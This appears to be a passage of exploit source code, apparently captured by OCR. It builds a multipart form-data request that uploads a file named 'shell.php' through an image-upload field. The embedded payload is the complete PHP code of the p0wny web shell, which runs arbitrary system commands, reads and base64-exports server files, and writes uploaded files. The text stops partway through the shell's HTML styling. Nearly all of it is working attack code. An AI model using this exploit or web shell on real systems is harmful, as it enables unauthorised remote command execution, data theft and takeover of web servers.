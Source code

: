     body = "-----------------------------31900464228840324774249185339\r\nContent-Disposition: form-data; name=\"form_filename\"\r\n\r\n\r\n-----------------------------31900464228840324774249185339\r\nContent-Disposition: form-data; name=\"form_filedata\"\r\n\r\n\r\n-----------------------------31900464228840324774249185339\r\nContent-Disposition: form-data; name=\"MAX_FILE_SIZE\"\r\n\r\n12000000\r\n-----------------------------31900464228840324774249185339\r\nContent-Disposition: form-data; name=\"form_image\"; filename=\"shell.php\"\r\nContent-Type: application/x-php\r\n\r\n<?php\n\nfunction featureShell($cmd, $cwd) {\n    $stdout = array();\n\n    if (preg_match(\"/^\\s*cd\\s*$/\", $cmd)) {\n        // pass\n    } elseif (preg_match(\"/^\\s*cd\\s+(.+)\\s*(2>&1)?$/\", $cmd)) {\n        chdir($cwd);\n        preg_match(\"/^\\s*cd\\s+([^\\s]+)\\s*(2>&1)?$/\", $cmd, $match);\n        chdir($match[1]);\n    } elseif (preg_match(\"/^\\s*download\\s+[^\\s]+\\s*(2>&1)?$/\", $cmd)) {\n        chdir($cwd);\n        preg_match(\"/^\\s*download\\s+([^\\s]+)\\s*(2>&1)?$/\", $cmd, $match);\n        return featureDownload($match[1]);\n    } else {\n        chdir($cwd);\n        exec($cmd, $stdout);\n    }\n\n    return array(\n        \"stdout\" => $stdout,\n        \"cwd\" => getcwd()\n    );\n}\n\nfunction featurePwd() {\n    return array(\"cwd\" => getcwd());\n}\n\nfunction featureHint($fileName, $cwd, $type) {\n    chdir($cwd);\n    if ($type == 'cmd') {\n        $cmd = \"compgen -c $fileName\";\n    } else {\n        $cmd = \"compgen -f $fileName\";\n    }\n    $cmd = \"/bin/bash -c \\\"$cmd\\\"\";\n    $files = explode(\"\\n\", shell_exec($cmd));\n    return array(\n        'files' => $files,\n    );\n}\n\nfunction featureDownload($filePath) {\n    $file = @file_get_contents($filePath);\n    if ($file === FALSE) {\n        return array(\n            'stdout' => array('File not found / no read permission.'),\n            'cwd' => getcwd()\n        );\n    } else {\n        return array(\n            'name' => basename($filePath),\n            'file' => base64_encode($file)\n        );\n    }\n}\n\nfunction featureUpload($path, $file, $cwd) {\n    chdir($cwd);\n    $f = @fopen($path, 'wb');\n    if ($f === FALSE) {\n        return array(\n            'stdout' => array('Invalid path / no write permission.'),\n            'cwd' => getcwd()\n        );\n    } else {\n        fwrite($f, base64_decode($file));\n        fclose($f);\n        return array(\n            'stdout' => array('Done.'),\n            'cwd' => getcwd()\n        );\n    }\n}\n\nif (isset($_GET[\"feature\"])) {\n\n    $response = NULL;\n\n    switch ($_GET[\"feature\"]) {\n        case \"shell\":\n            $cmd = $_POST['cmd'];\n            if (!preg_match('/2>/', $cmd)) {\n                $cmd .= ' 2>&1';\n            }\n            $response = featureShell($cmd, $_POST[\"cwd\"]);\n            break;\n        case \"pwd\":\n            $response = featurePwd();\n            break;\n        case \"hint\":\n            $response = featureHint($_POST['filename'], $_POST['cwd'], $_POST['type']);\n            break;\n        case 'upload':\n            $response = featureUpload($_POST['path'], $_POST['file'], $_POST['cwd']);\n    }\n\n    header(\"Content-Type: application/json\");\n    echo json_encode($response);\n    die();\n}\n\n?><!DOCTYPE html>\n\n<html>\n\n    <head>\n        <meta charset=\"UTF-8\" />\n        <title>p0wny@shell:~#</title>\n        <meta name=\"viewport\" content=\"width=device-width, initial-scale=1.0\" />\n        <style>\n            html, body {\n                margin: 0;\n                padding: 0;\n                background: #333;\n                color: #eee;\n                font-family: monospace;\n            }\n\n            *::-webkit-scrollbar-track {\n                border-radius: 8px;\n                background-color: #353535;\n            }\n\n            *::-webkit-scrollbar {\n                width: 8px;\n                height: 8px;\n            }\n\n            *::-webkit-scrollbar-thumb {\n                border-radius: 8px;\n                -webkit-box-shadow: inset 0 0 6px rgba(0,0,0,.3);\n                background-color: #bcbcbc;\n            }\n\n            #shell {\n                background: #222;\n                max-width: 800px;\n                margin: 50px auto 0 auto;\n                box-shadow: 0 0 5px rgba(0, 0, 0, .3);\n                font-size: 10pt;\n                display: flex;\n                flex-direction: column;\n                align-items: stretch;\n            }\n\n            #shell-content {\n                height: 500px;\n                overflow: auto;\n                padding: 5px;\n                white-space: pre-wrap;\n                flex-grow: 1;\n            }\n\n            #shell-logo {\n                font-weight: bold;\n                color: #FF4180;\n                text-align: center;\n            }\n\n            @media (max-width: 991px) {\n                #shell-logo {\n                    font-size: 6px;\n                    margin: -25px 0;\n                }\n\n                html, body, #shell {\n                    height: 100%;\n                    width: 100%;\n                    max-width: none;\n                }\n\n                #shell {\n                    margin-top: 0;\n                }\n            }\n\n            @media (max-width: 767px) {\n                #shell-input {\n                    flex-direction: column;\n                }\n            }\n\n            @media (max-width: 320px) {\n                #shell-logo {\n                    font-size: 5px;\n                }\n            }\n\n            .shell-prompt {\n                font-weight: bold;\n                color: #75DF0B;\n            }\n\n            .shell-prompt > span {\n                color: #1BC9E7;\n            }\n\n            #shell-input {\n